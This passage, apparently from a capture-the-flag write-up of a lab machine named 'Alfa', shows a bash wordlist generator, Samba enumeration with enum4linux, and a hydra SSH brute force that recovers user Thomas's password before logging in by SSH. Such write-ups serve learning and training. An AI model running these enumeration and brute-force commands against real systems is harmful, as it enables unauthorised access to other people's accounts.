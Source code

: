 We can use those specifications to create our dictionary of words, a oneliner bash script could do that for us.

```bash
root@kali:~$ for x in {000..999}; do echo milo$x;done > thomas.pass
```

### Samba Enumeration

By Listing the Samba service, it was possible to verify that Thomas is a local user of the system.

```bash
root@kali:~$ enum4linux -a 192.168.179.167
...
S-1-22-1-1000 Unix User\thomas (Local User) 
```

The most logical thing would be to brute force the SSH service. 

```bash
root@kali:~$ hydra -l thomas -P thomas.pass ssh://192.168.179.167:65111
...
[65111][ssh] host: 192.168.179.167   login: thomas   password: milo666
1 of 1 target successfully completed, 1 valid password found
```

## Exploitation
### Access via SSH

As we can see above the password of Thomas was found and we accessed via SSH.

```bash
root@kali:~$ ssh -l thomas 192.168.179.167 -p 65111
thomas@192.168.179.167's password:                                                                                                                                  
Linux Alfa 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64                                                                                             
                                                                                                                                                                    
####################################################################                                                                                                
#                  ,---------------------------,                   #                                                                                                
#                  |  /---------------------\  |                   #                                                                                                
#                  | |                       | |                   #                                                                                                
#                  | |         +----+        | |                   #                                                                                                
#                  | |         |ALFA|        | |                   #                                                                                                
#                  | |         +----+        | |                   #                                                                                                
#                  | |                       | |                   #                                                                                                
#                  |  \_____________________/  |                   #                                                                                                
#                  |___________________________|                   #                                                                                                
#                ,---\_____     []     _______/------,             #                                                                                                
#              /         /______________\           /|             #                                                                                                
#            /___________________________________ /  | ___         #                                                                                                
#            |                                   |   |    )        #                                                                                                
```